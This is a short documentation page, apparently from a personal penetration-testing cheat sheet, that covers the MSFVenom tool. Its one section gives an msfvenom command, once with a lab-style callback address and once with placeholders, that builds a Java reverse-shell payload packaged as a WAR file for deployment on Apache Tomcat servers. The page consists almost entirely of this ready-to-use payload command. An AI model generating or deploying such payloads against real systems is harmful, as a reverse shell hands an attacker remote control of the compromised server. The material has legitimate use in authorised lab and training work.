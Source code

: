 ```yaml
---
title: "MSFVenom"
description: "MSFVenom"
lead: "MSFVenom"
date: 2020-11-12T15:22:20+01:00
lastmod: 2020-11-12T15:22:20+01:00
draft: false
images: []
menu: 
  docs:
    parent: "tools"
weight: 620
toc: true
---
```


## Creating Payloads 

### WAR File for Apache Tomcat 

{{< btn-copy text="msfvenom -p java/shell_reverse_tcp lhost=10.10.14.13 lport=4443 -f war -o pwn.war" >}}

```bash
msfvenom -p java/shell_reverse_tcp lhost=[host] lport=[port] -f war -o pwn.war
```
